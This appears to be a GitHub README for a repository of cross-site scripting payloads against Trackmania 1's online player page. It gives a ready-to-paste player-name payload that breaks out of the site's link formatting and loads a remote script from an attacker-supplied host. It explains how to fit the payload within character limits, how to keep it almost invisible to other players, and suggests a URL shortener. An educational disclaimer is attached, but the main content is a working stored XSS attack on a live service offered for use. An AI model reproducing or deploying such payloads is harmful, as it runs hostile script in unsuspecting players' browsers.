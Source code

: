 # 🔗 trackmania-xss-payloads
Repo of XSS payloads you can try when using Trackmania 1's playerpage
> [!WARNING]
> I am not responsible for any damage done with the knowledge from this repo. It's a proof of concept which is created only for education and research purposes. By using this code you accept that you will **NOT** use this method in malicious purposes and that [kvbaxi](https://github.com/kvbaxi) takes no responsibility for misusage of this content.
## 💻 Put this in your name to make payload
```
$l["><script/src="//payload_link_here"></script>]username
```
## ❓ How does it work?
Trackmania 1's playerpage is very unsecure and old (due to the game not being updated), hence in time there were more and more security flaws found. One of them is this exact [XSS](https://wikipedia.org/wiki/Cross-Site-Scripting). It works by escaping the site's link formatting code and executing own code with newly appended `<script>` tag.  
  
One of the cons of this method is that you have limited set of characters you can use and length. You cannot use unescaped spaces as they will be escaped into HTML encoding (`" " -> &nbsp;`) so that is why I chose to use `/` instead as it converts `/` correctly as it was space.  
  
In result you get clean payload **almost** invisible to human eye. The main change you'll notice when using this payload on your name is that on stats page you'll see `">` on the beginning of your name. You can't prevent that without wasting another characters. In trackmania though, your payload is **completely invisible** on first look. Player has to hover over your name to see the suspicious payload in the place of link.  

Due to need in saving characters you cannot use the GitHub Pages link I have for my repo as it will be too long. I recommend using shortener that will make it as **short as possible**.
